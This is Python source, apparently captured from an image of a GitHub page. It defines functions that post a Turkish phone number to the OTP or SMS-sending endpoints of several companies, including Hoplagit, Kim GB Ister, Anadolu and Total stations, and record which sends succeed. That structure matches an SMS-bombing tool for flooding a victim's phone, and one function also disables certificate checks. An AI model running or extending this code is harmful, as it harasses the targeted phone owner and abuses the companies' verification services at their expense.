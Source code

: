 def hop(number):
    try:
        url = "https://api.hoplagit.com:443/v1/auth:reqSMS"
        payload = {
            "phone" : f"+90{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)

        if r.status_code == 201:
            return True, "Hop"
        else:
            return False, "Hop"
    except:
        return False, "Hop"

def kimgbister(number):
    try:
        url = "https://3uptzlakwi.execute-api.eu-west-1.amazonaws.com:443/api/auth/send-otp"
        payload = {
            "msisdn" : f"90{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)

        if r.status_code == 200:
            return True, "Kim GB Ister"
        else:
            return False, "Kim GB Ister"
    except:
        return False, "Kim GB Ister"

def anadolu(number):
    try:
        url = "https://www.anadolu.com.tr/Iletisim_Formu_sms.php"
        payload = urllib.parse.urlencode({
            "Numara": f"{str(number)[0:3]}{str(number)[3:6]}{str(number)[6:8]}{str(number)[8:10]}"
        })
        headers = {
            "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
        }
        r = requests.post(url=url, headers=headers, data=payload, timeout=5)
        if r.status_code == 200:
            return True, "Anadolu"
        else:
            return False, "Anadolu"
    except:
        return False, "Anadolu"

def total(number):
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    try:
        url = f"https://mobileapi.totalistasyonlari.com.tr:443/SmartSms/SendSms?gsmNo={number}"
        r = requests.post(url=url, verify=False, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            return True, "Total"
        else:
            return False, "Total"
    except:
        return False, "Total"
